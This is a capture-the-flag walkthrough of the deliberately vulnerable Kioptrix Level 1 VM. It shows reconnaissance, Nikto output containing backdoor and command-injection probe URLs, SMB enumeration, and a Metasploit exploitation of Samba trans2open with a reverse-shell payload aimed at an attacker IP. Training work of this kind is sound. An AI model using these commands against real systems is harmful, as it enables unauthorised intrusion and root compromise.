

**Metadata:**

| title     | updated              | created              | latitude   | longitude  | altitude |
| :-------- | :------------------- | :------------------- | :--------- | :--------- | :------- |
| Write-up  | 2025-06-18 18:45:33 UTC | 2025-06-18 18:45:33 UTC | 21.199560 | 81.289009 | 0.0      |


# Kioptrix Level 1

## 1. Introduction

The Kioptrix Level 1 machine is a purposely vulnerable virtual machine (VM) designed as an introductory platform for penetration testing training. Its objective is to enable learners to apply fundamental ethical hacking methodologies within a controlled environment. The core task involves identifying and exploiting pre-existing security weaknesses to achieve root privilege escalation. This hands-on exercise is crucial for developing proficiency in reconnaissance, vulnerability assessment, and exploitation techniques, mirroring real-world security engagements.


---

## Lab Environment Setup 
**Date:** 2025-06-18 
**Penetration Tester:** Sayyad Saif Ali

## Prerequisites
- **Attack Machine**: Kali Linux VM (or any Linux distro with pentesting tools like Nmap, Metasploit, and Searchsploit).
- **Target Machine**: Kioptrix Level 1 VM, downloadable from [VulnHub](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/).
- **Network Setup**: Both VMs configured on the same network (e.g., NAT or Host-Only in VirtualBox/VMware).
- **Tools**: Nmap, Nikto, Metasploit, Searchsploit, and a web browser.

---

## Phase 1: Network Discovery & Reconnaissance

### 1.1 Finding Our Target

#### Method 1: Using netdiscover
To begin, I identified the IP address of the Kioptrix VM on the network using `netdiscover`.,the command is:

```bash
netdiscover -r 192.168.29.0/24

```




#### Method 2: Using Arp scan
ARP (Address Resolution Protocol) is the fundamental mechanism that maps IP addresses to MAC addresses on local networks. An ARP scan proactively discovers active devices by leveraging this protocol.

```bash
arp-scan -l

```


### 1.2 Port Scanning
Next, I performed a port scan to identify open ports and services using Nmap:

```bash
nmap -T4 -p- -A 192.168.29.175
```
**nmap**
Network exploration and security auditing tool.

**-T4**
Aggressive timing template (faster scans, higher network load).

**-p-**
Scan all 65,535 TCP ports (full port range).

**-A**
Aggressive mode (OS detection, version detection, script scanning, traceroute).

Result of Nmap:


```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-18 14:23 EDT
Nmap scan report for 192.168.29.175
Host is up (0.00039s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp   open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1          32768/tcp   status
|_  100024  1          32768/udp   status
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_ssl-date: 2025-06-18T22:24:01+00:00; +3h59m58s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-09-26T09:32:06
|_Not valid after:  2010-09-26T09:32:06
|_http-title: 400 Bad Request
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
32768/tcp open  status      1 (RPC #100024)
MAC Address: 08:00:27:B8:58:67 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Network Distance: 1 hop

Host script results:
|_clock-skew: 3h59m57s
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

TRACEROUTE
HOP RTT     ADDRESS
1   0.39 ms 192.168.29.175

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.28 seconds
```
#Open port summary
| # | Port/Protocol | Service       | Version/Details                                                                 | Critical Observations                                                                 |
|---|---------------|---------------|---------------------------------------------------------------------------------|----------------------------------------------------------------------------------------|
| 1 | 22/tcp        | SSH           | OpenSSH 2.9p2 (protocol 1.99)                                                   | Supports insecure SSHv1 protocol                                                       |
| 2 | 80/tcp        | HTTP          | Apache 1.3.20 (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b                      | TRACE method enabled (XSS risk), Test Page exposed                                     |
| 3 | 111/tcp       | RPC           | rpcbind v2                                                                      | Remote Procedure Call service                                                          |
| 4 | 139/tcp       | NetBIOS-SSN   | Samba smbd 2.2.1a (workgroup: MYGROUP)                                          | **VULNERABLE**: trans2open overflow (CVE-2003-0201)                                    |
| 5 | 443/tcp       | HTTPS         | Apache/1.3.20 mod_ssl/2.8.4 OpenSSL/0.9.6b                                      | Weak SSLv2 ciphers (e.g., SSL2_RC4_64_WITH_MD5), Invalid certificate                   |
| 6 | 32768/tcp     | Status        | RPC status service v1                                                           | Uncommon high port service                                                              |


## Phase 2: Enumeration

### 2.1 Enumerating HTTP/HTTPS (80/tcp)
### Manual Web Inspection
1. Accessed web service at `http://192.168.29.175` (target IP)
2. Observed default Apache test page:


Followed "DocumentRoot" link leading to error page:
Not Found: The requested URL /manual/mod/core.html was not found on this server.

Critical server header discovered in error page:
```
Apache/1.3.20 Server at 127.0.0.1 Port 80
```


### Vulnerability Scanning with Nikto

Using Command:
```
nikto -h http://192.168.29.175
```

We got:
```
---------------------------------------------------------------------------
+ Target IP:          192.168.29.175
+ Target Hostname:    192.168.29.175
+ Target Port:        80
+ Start Time:         2025-06-20 09:19:14 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
+ /: Server may leak inodes via ETags, header found with file /, inode: 34821, size: 2890, mtime: Wed Sep  5 23:12:46 2001. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ /: Apache is vulnerable to XSS via the Expect header. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3918
+ OpenSSL/0.9.6b appears to be outdated (current is at least 3.0.7). OpenSSL 1.1.1s is current for the 1.x branch and will be supported until Nov 11 2023.
+ mod_ssl/2.8.4 appears to be outdated (current is at least 2.9.6) (may depend on server version).
+ Apache/1.3.20 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE .
+ /: HTTP TRACE method is active which suggests the host is vulnerable to XST. See: https://owasp.org/www-community/attacks/Cross_Site_Tracing
+ Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution.
+ Apache/1.3.20 - Apache 1.3 below 1.3.27 are vulnerable to a local buffer overflow which allows attackers to kill any process on the system.
+ Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi.
+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell.
+ ///etc/hosts: The server install allows reading of any system file by adding an extra '/' to the URL.
+ /usage/: Webalizer may be installed. Versions lower than 2.01-09 vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2001-0835
+ /manual/: Directory indexing found.
+ /manual/: Web server manual found.
+ /icons/: Directory indexing found.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /test.php: This might be interesting.
+ /wp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpress/wp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpress/wp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpress/wp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /assets/mobirise/css/meta.php?filesrc=: A PHP backdoor file manager was found.
+ /login.cgi?cli=aa%20aa%27cat%20/etc/hosts: Some D-Link router remote command execution.
+ /shell?cat+/etc/hosts: A backdoor was identified.
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 8908 requests: 0 error(s) and 30 item(s) reported on remote host
+ End Time:           2025-06-20 09:19:40 (GMT-4) (26 seconds)
---------------------------------------------------------------------------
```

Key Findings:
```
- Target IP: 192.168.29.175
- Target Port: 80
- Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
- Retrieved via server header: Apache/1.3.20
- mod_ssl/2.8.4 appears vulnerable (versions < 2.8.7)
- OpenSSL/0.9.6b appears vulnerable (versions < 0.9.6d)
- Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE 
- HTTP TRACE method enabled → Potential XST vulnerability
- /~root directory indexing enabled → Information disclosure risk
- /cgi-bin/ directory found → Possible CGI exploitation vector
```

### 2.2 Enumerating SMB (139/tcp)

### SMB Version Detection with Metasploit
```bash
msf6 > search smb

# Selected auxiliary module for version scanning:
msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > info

# Module Configuration:
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.29.175
msf6 auxiliary(scanner/smb/smb_version) > run
```

[*] 192.168.29.175:139 - Host could not be identified: Unix (Samba 2.2.1a)
[*] Scanned 1 of 1 hosts (100% complete)


Critical Finding:
Identified vulnerable Samba version: 2.2.1a (CVE-2003-0201)

### SMB Share Enumeration with smbclient

```bash
smbclient -L \\\\192.168.29.175\\
```
Share Discovery:
```
Sharename       Type      Comment
---------       ----      -------
IPC$            IPC       IPC Service (Samba Server)
ADMIN$          IPC       IPC Service (Samba Server)

Workgroup       Master
---------       -------
MYGROUP         KIOPTRIX
```

Authentication Context:
Anonymous login successful (no credentials required)

Share Access Attempts:
1. ADMIN$ Share:

```bash
smbclient \\\\192.168.29.175\\ADMIN$
```

```
Anonymous login successful
tree connect failed: NT_STATUS_WRONG_PASSWORD
```

• Access denied despite anonymous login

2. IPC$ Share:

```bash
smbclient \\\\192.168.29.175\\IPC$
```
```
Anonymous login successful
smb: \> ls
NT_STATUS_NETWORK_ACCESS_DENIED listing \*
```

• Initial connection successful but directory listing blocked

Security Analysis:
  • Anonymous enumeration possible (information disclosure risk)

  • Critical vulnerability in Samba version 2.2.1a confirmed

  • Default shares (IPC$, ADMIN$) exposed but restricted

  • No writable shares discovered via anonymous access

  ## Phase 3: Vulnerability Research and Exploitation

### Vulnerability Identification
1. **Port 80/443 (mod_ssl)**:
   - Discovered "OpenFuck" (OpenSSL exploit) through research
   - CVE-2002-0082: Apache mod_ssl remote buffer overflow
   - **Exploit Complexity**: Medium (requires specific OS targeting)

2. **Port 139 (Samba)**:
   - **CVE-2003-0201**: trans2open remote buffer overflow
   - **Exploit Availability**: Public exploit (confirmed for Samba 2.2.x)
   - **Priority Selection**: Chosen for direct root access potential

Simply by googling we found:

   
### Exploit Verification with Searchsploit

```bash
searchsploit samba 2.2
```


Metasploit Exploitation Workflow
```
msf6 > search trans2open

Matching Modules
================
#  Name                                  Disclosure Date  Rank       Check  Description
-  ----                                  ---------------  ----       -----  -----------
0  exploit/freebsd/samba/trans2open      2003-04-07       great      No     Samba trans2open Overflow (FreeBSD x86)
1  exploit/linux/samba/trans2open        2003-04-07       great      No     Samba trans2open Overflow (Linux x86)
2  exploit/osx/samba/trans2open          2003-04-07       great      No     Samba trans2open Overflow (Mac OS X PPC)
3  exploit/solaris/samba/trans2open      2003-04-07       great      No     Samba trans2open Overflow (Solaris SPARC)

msf6 > use 1  # exploit/linux/samba/trans2open
msf6 exploit(trans2open) > set RHOSTS 192.168.29.175
msf6 exploit(trans2open) > exploit  # Default payload fails
```


Payload Troubleshooting
Problem: Staged payload (linux/x86/meterpreter/reverse_tcp) failed during brute-force phase
Solution: Switched to non-staged reverse shell payload


```
msf6 exploit(trans2open) > set payload linux/x86/shell_reverse_tcp
payload => linux/x86/shell_reverse_tcp
msf6 exploit(trans2open) > set LHOST 192.168.29.100  # Attacker IP
msf6 exploit(trans2open) > exploit
```

Successful Exploitation


We can now read the ``` /var/mail/root``` file to complete the challenge:
```bash
cat /var/mail/root
```
